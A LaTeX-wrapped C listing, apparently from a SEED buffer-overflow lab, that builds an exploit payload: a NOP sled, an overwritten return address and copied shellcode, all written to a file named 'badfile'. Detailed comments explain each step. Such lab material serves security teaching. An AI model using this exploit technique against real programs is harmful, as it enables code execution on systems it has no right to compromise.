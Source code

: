 \documentclass[14pt]{extarticle}
\begin{document}
\begin{lstlisting}[language=c]
	// nop_buff will hold the size of our nop sled. since the buffer will be pre-filled with nop commands, I can Just
	// write the shellcode in the buffer after (the return address + the number of nops for our sled) bytes in the buffer.
	// This should be a number greater than gcc_padding, but less than ( buff_size - sizeof(shellcode) )
	int  nop_buff    = gcc_padding + 4; //40  - adding 4 nop's after return address, before source code

	// This variable will hold our nop sled, return addres, and exploit code. And will be written to the badfile
  char buffer[buff_size];

  // This will be our file object that will be used to write the buffer to the badfile later
  FILE *badfile;


  /* Initialize buffer with 0x90 (NOP instruction)*/
	// to start, we will fill the entire buffer with nop commands (0x90)
  memset(&buffer, 0x90, buff_size);

	/* Place return location after array */
	// the source_loc variable will hold the location in memory that we can expect to find the start of the source code.
	// This location can be set to point to anywhere between the return address and the start of our source code.
	int source_loc = buff_loc + nop_buff;

	// using the location of our source code, we can set the return address to point to that location
	// buffer[gcc_padding] is the location in the buffer that will overwrite the return address of the bof function
	// ((source_loc >> (8*0)) & 0xFF) returns the first byte of the address location (i.e 0xBF)
	buffer[gcc_padding]   = (source_loc >> (8*0)) & 0xFF; // get first part of source code location

	// ((source_loc >> (8*1)) & 0xFF) returns the second byte of the address location (i.e 0xFF)
	buffer[gcc_padding+1] = (source_loc >> (8*1)) & 0xFF; // get next more significate byte.

	// ((source_loc >> (8*2)) & 0xFF) returns the third byte of the address location (i.e 0xEB)
	buffer[gcc_padding+2] = (source_loc >> (8*2)) & 0xFF; // ... and so on.

	// ((source_loc >> (8*3)) & 0xFF) returns the fourth byte of the address location (i.e 0x5C)
	buffer[gcc_padding+3] = (source_loc >> (8*3)) & 0xFF;

	/* Copy exploit code into stack */
	/* last byte is null, so it is removed */
	strncpy( buffer+nop_buff, shellcode, sizeof(shellcode)-1);

		/* open the badfile for writing */
    badfile = fopen("./badfile", "w");
		/*Save the contents to the file "badfile"*/
    fwrite(buffer, 517, 1, badfile);
		/* close the badfile */
    fclose(badfile);
}
\end{lstlisting} \cite{seed-bof}\\
\end{document}
